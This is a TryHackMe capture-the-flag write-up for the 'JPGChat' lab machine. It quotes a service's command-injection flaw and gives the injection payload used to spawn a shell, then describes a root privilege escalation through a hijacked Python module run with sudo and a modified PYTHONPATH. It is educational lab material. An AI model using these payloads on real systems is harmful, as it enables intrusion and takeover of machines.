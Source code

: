 ```yaml
---
title: "TryHackMe - JPGChat"
permalink: /writeups/tryhackme/jpgchat
---
```


![TryHackMe: JPGChat (Easy)](images/JPGChat.png)
<h1><ins>TryHackMe: JPGChat</ins></h1>

**Date:** 29/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** JPGChat\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - JPGChat](https://tryhackme.com/room/jpgchat)

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 20:26 GMT
Nmap scan report for 10.10.63.208
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```
From the NMAP scan I can see that there is some sort of interactive service running on port 3000. It looks like it could be a messaging service. It also says that the source code of the service can be found on the admin's github. A little bit of searching around and I found [it](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py).

Theres a snippet in the code that is vulnerable to command injection.

The code:
```
def report_form():
	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

Looking again at what was returned from the NMAP scan, it gives the user an option to report someone to admins by sending a message saying **[REPORT]** which will call the function **report_form()**. It then prompts the user to enter their name and their report that the admins will read.

It works by directly concatenating the user's input into a system command to echo data into a file, which is run using `os.system()`.

We can exploit this by entering either our name or report information as this command: `;/bin/bash;echo`. This will spawn a shell for us to run any system commands we want.

## Initial Foothold
To interact with the service, I used the netcat command: `nc <ip> 3000`

I then send the message **[REPORT]** and enter a random name, and then the command mentioned above as the report. A shell is spawned and I stabilize the shell using `python -c 'import pty;pty.spawn("/bin/bash")'`.

From the command `whoami`, I can see that I have a shell as the user **wes**. Changing directory into **/home/wes**, I see that there is a file `user.txt` which is the first flag needed for the CTF.

## Privilege Escalation (root)
Running the command `sudo -l` shows me that the user **wes** has access to the **PYTHONPATH** environment variable and can run `/usr/bin/python3 /opt/development/test_module.py` as root with no password.

Reading the source code of `/opt/development/test_module.py` I see that it uses a module named **compare**. As we have access to the **PYTHONPATH** environment variable, we can exploit this using _Python Library Hijacking_. We can create our own **compare.py** file in our home directory, modify the **PYTHONPATH** variable, and this will make the **test_module.py** file import _our_ module and run any code that we write.

### Exploitation
- Create a file named **compare.py** in `/home/wes` containing the code
```
import subprocess
subprocess.call(['/bin/sh', '-i'])
```
This will spawn a shell when the module is imported, and as the command is run using sudo permissions, the module will also be run using sudo permissions, in turn spawning a root shell.

- Then run the command: `export PYTHONPATH=/home/wes` to set the **PYTHONPATH** environment variable to our home directory
- Finally, run the command: `sudo /usr/bin/python3 /opt/development/test_module.py`

SUCCESS! This will import _our_ **compare.py** module, run the code we wrote, and now we have a root shell!

Change directory to `/root` and read the final flag needed for the CTF.